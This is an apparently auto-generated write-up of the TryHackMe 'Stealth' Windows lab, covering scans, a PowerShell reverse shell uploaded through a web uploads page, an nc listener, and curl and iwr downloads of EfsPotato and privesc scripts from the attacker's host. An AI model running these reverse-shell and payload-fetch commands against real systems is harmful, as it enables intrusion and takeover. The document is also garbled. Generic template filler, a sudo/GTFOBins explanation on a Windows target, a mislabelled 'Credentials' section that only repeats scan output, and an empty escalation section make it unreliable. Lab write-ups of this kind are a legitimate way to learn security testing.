

## Overview

| Field                     | Value |
|---------------------------|-------|
| OS                        | Windows |
| Difficulty                | Not specified |
| Attack Surface            | Not specified |
| Primary Entry Vector      | web attack path to foothold |
| Privilege Escalation Path | Local misconfiguration or credential reuse to elevate privileges |

## Reconnaissance

### 1. PortScan

---
## Rustscan

💡 Why this works  
High-quality reconnaissance narrows a large attack surface into a few validated exploitation paths. Accurate service mapping prevents time loss and supports targeted follow-up testing.

## Initial Foothold

### Not implemented (not recorded in PDF)


## Nmap
```bash
nmap -sV -sT -sC $ip
```

### 2. Local Shell

---

PDFメモから抽出した主要コマンドと要点を整理しています。必要に応じて後続で詳細追記してください。

### 実行コマンド（抽出）
```bash
nc -lvnp 3333
curl http://10.10.67.131:8000/EfsPotato.cs -o C:\xampp\htdocs\efs.cs
```

### 抽出画像


*Caption: Screenshot captured during stealth attack workflow (step 1).*


*Caption: Screenshot captured during stealth attack workflow (step 2).*


*Caption: Screenshot captured during stealth attack workflow (step 3).*


*Caption: Screenshot captured during stealth attack workflow (step 4).*

### 抽出メモ（先頭120行）
```bash
Stealth
August 6, 2024 23:39
■room

Reference link
https://medium.com/@S3THU/tryhackme-stealth-room-walkthrough-513d7e7b4d9d
https://systemweakness.com/stealth-tryhackme-write-up-aa684e97575a
#1 First scan
┌──(n0z0㉿LAPTOP-P490FVC2)-[~/tools]
└─$ nmap -sV -sT -sC $ip
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-12 21:32 JST
Note: Host seems down. If it is really up, but blocking our ping probes, try -Pn
Nmap done: 1 IP address (0 hosts up) scanned in 3.40 seconds
It looks like ICMP is prohibited.
I tried FFuF scan
┌──(n0z0㉿LAPTOP-P490FVC2)-[~/tools]
└─$ ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -u http://$ip:8080/FUZZ
/'___\  /'___\           /'___\
/\ \__/ /\ \__/  __  __  /\ \__/
\ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
\ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
\ \_\   \ \_\  \ \____/  \ \_\
\/_/    \/_/   \/___/    \/_/
v2.1.0-dev
________________________________________________
:: Method           : GET
:: URL              : http://10.10.196.227:8080/FUZZ
:: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt
:: Follow redirects : false
:: Calibration      : false
:: Timeout          : 10
:: Threads          : 40
:: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________
.htpasswd               [Status: 403, Size: 305, Words: 22, Lines: 10, Duration: 260ms]
.htaccess               [Status: 403, Size: 305, Words: 22, Lines: 10, Duration: 264ms]
.hta                    [Status: 403, Size: 305, Words: 22, Lines: 10, Duration: 259ms]
aux                     [Status: 403, Size: 305, Words: 22, Lines: 10, Duration: 279ms]
cgi-bin/                [Status: 403, Size: 305, Words: 22, Lines: 10, Duration: 256ms]
com3                    [Status: 403, Size: 305, Words: 22, Lines: 10, Duration: 250ms]
com4                    [Status: 403, Size: 305, Words: 22, Lines: 10, Duration: 250ms]
com2                    [Status: 403, Size: 305, Words: 22, Lines: 10, Duration: 251ms]
com1                    [Status: 403, Size: 305, Words: 22, Lines: 10, Duration: 272ms]
con                     [Status: 403, Size: 305, Words: 22, Lines: 10, Duration: 250ms]
index.php               [Status: 200, Size: 2140, Words: 405, Lines: 90, Duration: 261ms]
licenses                [Status: 403, Size: 424, Words: 37, Lines: 12, Duration: 253ms]
lpt2                    [Status: 403, Size: 305, Words: 22, Lines: 10, Duration: 251ms]
lpt1                    [Status: 403, Size: 305, Words: 22, Lines: 10, Duration: 252ms]
nul                     [Status: 403, Size: 305, Words: 22, Lines: 10, Duration: 249ms]
phpmyadmin              [Status: 403, Size: 424, Words: 37, Lines: 12, Duration: 251ms]
prn                     [Status: 403, Size: 305, Words: 22, Lines: 10, Duration: 276ms]
server-info             [Status: 403, Size: 424, Words: 37, Lines: 12, Duration: 249ms]
server-status           [Status: 403, Size: 424, Words: 37, Lines: 12, Duration: 249ms]
uploads                 [Status: 301, Size: 348, Words: 22, Lines: 10, Duration: 250ms]
webalizer               [Status: 403, Size: 305, Words: 22, Lines: 10, Duration: 249ms]
:: Progress: [4727/4727] :: Job [1/1] :: 160 req/sec :: Duration: [0:00:31] :: Errors: 0 ::
When I enumerated the subdirectories with FFuF, there was something called uploads.
OneNote
1/5
When I accessed it, I was able to access a site where I thought I could upload it.
Looks like you can only upload in ps1 format
■Reverse shell in ps1 format
https://github.com/martinsohn/PowerShell-reverse-shell/blob/main/powershell-reverse-shell.ps1
When I created and uploaded rev.ps1 to tools, the reverse shell was successful.
┌──(n0z0㉿LAPTOP-P490FVC2)-[~/tools]
└─$ nc -lvnp 3333
listening on [any] 3333 ...
connect to [10.11.87.75] from (UNKNOWN) [10.10.67.131] 50039
SHELL>
When I looked at the users, I saw the following, so I went to the desktop.
SHELL> whoami
hostevasion\evader
SHELL> dir
Directory: C:\Users\evader\Desktop
Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        6/21/2016   3:36 PM            527 EC2 Feedback.website
-a----        6/21/2016   3:36 PM            554 EC2 Microsoft Windows Guide.website
-a----         8/3/2023   7:12 PM            194 encodedflag
SHELL> whoami
hostevasion\evader
SHELL> type encodeflag
SHELL> type encodedflag
-----BEGIN CERTIFICATE-----
WW91IGNhbiBnZXQgdGhlIGZsYWcgYnkgdmlzaXRpbmcgdGhlIGxpbmsgaHR0cDov
LzxJUF9PRl9USElTX1BDPjo4MDAwL2FzZGFzZGFkYXNkamFramRuc2Rmc2Rmcy5w
aHA=
-----END CERTIFICATE-----
SHELL>
OneNote
2/5
When I decoded it, I got the following
When I try to access it
You can get the flag by visiting the link http://<IP_OF_THIS_PC>:8000/asdasdadasdjakjdnsdfsdfs.php
I'm asked to delete my log
When I deleted the log, the flag was removed.
#2Get root privileges
Submit permission check script
SHELL> iwr -uri "http://10.11.87.75:8000/privesc.ps1" -o privesc.ps1
SHELL> dir
Directory: C:\xampp\htdocs\uploads
Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         8/1/2023   5:10 PM            132 hello.ps1
-a----        8/17/2023   4:58 AM              0 index.php
-a----         8/6/2024   3:24 PM         346831 privesc.ps1
-a----         8/6/2024   3:17 PM           1461 rev.ps1
-a----         9/4/2023   3:18 PM            771 vulnerable.ps1
Perform permission checks
powershell -ep bypass -c ". .\privesc.ps1; Invoke-privesc"
SHELL> powershell -ep bypass -c ". .\privesc.ps1; Invoke-privesc"
SHELL> whoami /priv
PRIVILEGES INFORMATION
----------------------
OneNote
3/5
Privilege Name                Description                    State
============================= ============================== ========
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
```

### Not implemented (not recorded in PDF)


💡 Why this works  
Initial access succeeds when enumeration findings are turned into a practical exploit chain. Capturing credentials, file disclosure, or direct RCE creates reliable pivot points for privilege escalation.

## Privilege Escalation

### 3.Privilege Escalation

---

Privilege elevation related commands extracted from PDF memo.

💡 Why this works  
Privilege escalation depends on chaining local weaknesses such as sudo misconfiguration, weak file permissions, or credential reuse. If a GTFOBins technique is used, the mechanism is that an allowed binary executes a child process or shell without dropping elevated effective privileges.

## Credentials

```text
https://medium.com/@S3THU/tryhackme-stealth-room-walkthrough-513d7e7b4d9d
https://systemweakness.com/stealth-tryhackme-write-up-aa684e97575a
└─$ ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -u http://$ip:8080/FUZZ
\/_/    \/_/   \/___/    \/_/
:: URL              : http://10.10.196.227:8080/FUZZ
:: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt
.htpasswd               [Status: 403, Size: 305, Words: 22, Lines: 10, Duration: 260ms]
cgi-bin/                [Status: 403, Size: 305, Words: 22, Lines: 10, Duration: 256ms]
:: Progress: [4727/4727] :: Job [1/1] :: 160 req/sec :: Duration: [0:00:31] :: Errors: 0 ::
2026/02/27 18:48
https://github.com/martinsohn/PowerShell-reverse-shell/blob/main/powershell-reverse-shell.ps1
-a----        6/21/2016   3:36 PM            527 EC2 Feedback.website
-a----        6/21/2016   3:36 PM            554 EC2 Microsoft Windows Guide.website
-a----         8/3/2023   7:12 PM            194 encodedflag
You can get the flag by visiting the link http://<IP_OF_THIS_PC>:8000/asdasdadasdjakjdnsdfsdfs.php
SHELL> iwr -uri "http://10.11.87.75:8000/privesc.ps1" -o privesc.ps1
-a----         8/1/2023   5:10 PM            132 hello.ps1
-a----        8/17/2023   4:58 AM              0 index.php
-a----         8/6/2024   3:24 PM         346831 privesc.ps1
```

## Lessons Learned / Key Takeaways

### 4.Overview

---




## References

- nmap
- rustscan
- ffuf
- nc
- curl
- php
- GTFOBins
